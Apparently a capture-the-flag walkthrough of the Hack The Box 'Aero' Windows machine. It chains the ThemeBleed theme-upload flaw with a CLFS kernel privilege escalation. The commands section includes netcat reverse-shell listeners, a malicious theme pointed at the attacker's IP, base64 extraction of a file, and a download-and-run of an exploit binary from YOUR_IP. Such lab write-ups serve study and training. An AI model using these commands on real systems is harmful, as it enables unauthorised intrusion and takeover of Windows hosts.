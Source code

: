## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
    
    - 🎨 **ThemeBleed** (CVE‑2023‑38146) – race‑condition on `.msstyles` _vrf.dll loading
    - 🐛 **CLFS EoP** (CVE‑2023‑28252) – Common Log File System token stealing
    - ⚙️ Local PrivEsc via Nokoyawa-style CLFS exploit

**Open Ports:**

- [80](HTTP)/tcp – HTTP (IIS + ARR/3.0)

---

## 🧠 TLDR

1. **Recon & Static** – Found IIS 10, a theme‑upload form allowing `.theme`/`.themepack` only.
2. **RCE via ThemeBleed** – Built a malicious DLL exporting `VerifyThemeVersion`, packaged it into a theme with ThemeBleed POC, ran the built‑in SMB server, uploaded to trigger a reverse shell as `aero\sam.emerson` 🎉
3. **EoP to SYSTEM** – Retrieved and reviewed CVE‑2023‑28252_POC, patched to drop a Base64‑powered PowerShell reverse shell, ran it on the box to escalate from user to `NT AUTHORITY\SYSTEM` 🚀
4. **Beyond Root** – Discovered use of `FileSystemWatcher` in `watchdog.ps1` for auto‑launching uploaded themes, showcasing automation via PowerShell events.
    

---

## 🧰 Tools

- **Port/Content Discovery**: `nmap`, `feroxbuster`
- **ThemeBleed Exploit**: [ThemeBleed.exe](https://github.com/example/ThemeBleed) (make_theme/make_themepack + servere
- **DLL Builder**: Visual Studio (C++ DLL project exporting `VerifyThemeVersion`)
- **Networking**: `nc -lvnp` for callback listener
- **EoP Exploit**: CLFS PoC (CVE‑2023‑28252) from Fortra
- **PowerShell**: `Invoke‑WebRequest`, `FileSystemWatcher`, `Convert::ToBase64String`

---

## 🚀 Commands

```bash
# 1) Recon
nmap -p- --min-rate 10000 -oA aero-full 10.10.11.237
nmap -p80 -sCV     10.10.11.237

# 2) Build & Deploy ThemeBleed RCE
#   • Compile ReverseShellDLL.dll exporting VerifyThemeVersion()
#   • Copy into POC repo: data/stage_3/
#   • Generate theme: 
./ThemeBleed.exe make_theme YOUR_IP exploit.theme
#   • Disable local SMB on attacker host (stop Server service) / reboot
#   • Run SMB server:
./ThemeBleed.exe server
#   • Upload exploit.theme via web form
nc -lvnp 4444           # catch shell as sam.emerson
```

```
# 3) Privilege Escalation via CLFS
#   • Exfiltrate CVE summary PDF:
[convert]::ToBase64String((Get-Content CVE-2023-28252_Summary.pdf -Encoding byte))
#   • Build CLFS exploit in VS (Release, MBCS)
#   • Download & execute on target:
iwr http://YOUR_IP/clfs_eop.exe -outfile clfs_eop.exe
.\clfs_eop.exe         # drops SYSTEM reverse shell

nc -lvnp 9001           # catch SYSTEM shell

# 4) Beyond Root – Automation Insight
#   • Review watchdog.ps1 using FileSystemWatcher in C:\inetpub\aero\uploads
```

---

## 📚 Lessons Learned

- 🎨 **ThemeBleed** shows how signed‐DLL checks can be raced via filesystem swap (_vrf.dll).
    
- 🐛 **CLFS Token Stealing** is a powerful kernel escape when patch KB5025224 is missing.
    
- ⚙️ **PowerShell FileSystemWatcher** eventing can automate “clicking” actions server‑side.
    
- 🛠️ Always inspect uploads & backups for local enum or creds, then chain to EoP.
    

---

## 📖 References

- [ThemeBleed (CVE‑2023‑38146) POC](https://github.com/0xdf/ThemeBleed)
    
- [Fortra CLFS EoP (CVE‑2023‑28252)](https://github.com/fortra/clfs-eop)
    
- [Microsoft Security Update Guide](https://msrc.microsoft.com/update-guide)
    
- [HTB Aero Discussion & Walkthrough](https://0xdf.gitlab.io/2023/09/28/htb-aero.html)